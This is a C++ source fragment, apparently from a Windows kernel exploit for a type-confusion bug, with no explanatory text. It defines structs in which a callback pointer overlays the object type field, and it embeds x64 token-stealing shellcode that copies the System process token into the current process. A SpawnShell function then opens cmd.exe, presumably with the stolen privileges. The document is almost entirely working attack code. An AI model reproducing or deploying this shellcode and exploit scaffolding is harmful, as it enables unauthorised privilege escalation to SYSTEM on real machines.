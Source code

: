 ```cpp

typedef NTSTATUS(*_NtQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID                    SystemInformation,
	ULONG                    SystemInformationLength,
	PULONG                   ReturnLength
	);


typedef struct _USER_TYPE_CONFUSION_OBJECT
{
	ULONG_PTR ObjectID;
	ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, * PUSER_TYPE_CONFUSION_OBJECT;



typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
	ULONG_PTR ObjectID;
	union
	{
		ULONG_PTR ObjectType;
		UINT64* Callback;
	};
} KERNEL_TYPE_CONFUSION_OBJECT, * PKERNEL_TYPE_CONFUSION_OBJECT;



char pShellcode[] = {
	0x48, 0x31, 0xC0, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC9, 0x65,
	0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x80, 0x20, 0x02, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x4D, 0x8B,
	0x89, 0xF0, 0x02, 0x00, 0x00, 0x49, 0x81, 0xE9, 0xF0, 0x02,
	0x00, 0x00, 0x49, 0x8B, 0x89, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x83, 0xF9, 0x04, 0x75, 0xE5, 0x48, 0x05, 0x58, 0x03, 0x00,
	0x00, 0x4D, 0x8B, 0x89, 0x58, 0x03, 0x00, 0x00, 0x4C, 0x89,
	0x08, 0x90, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00,
	0x00, 0x66, 0x8B, 0x88, 0xE4, 0x01, 0x00, 0x00, 0x66, 0xFF,
	0xC1, 0x66, 0x89, 0x88, 0xE4, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x8A, 0x68, 0x01,
	0x00, 0x00, 0x4C, 0x8B, 0x9A, 0x78, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0xA2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xAA, 0x58,
	0x01, 0x00, 0x00, 0x31, 0xC0, 0x0F, 0x01, 0xF8, 0x48, 0x0F,
	0x07, 0xC3, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
};



void SpawnShell() {

	PROCESS_INFORMATION Pi = { 0 };
	STARTUPINFOW Si = { 0 };
	Si.cb = sizeof(STARTUPINFOW);

	CreateProcess(L"C:\\Windows\\System32\\cmd.exe", nullptr, nullptr, nullptr, false, CREATE_NEW_CONSOLE, nullptr, nullptr, &Si, &Pi);
}





```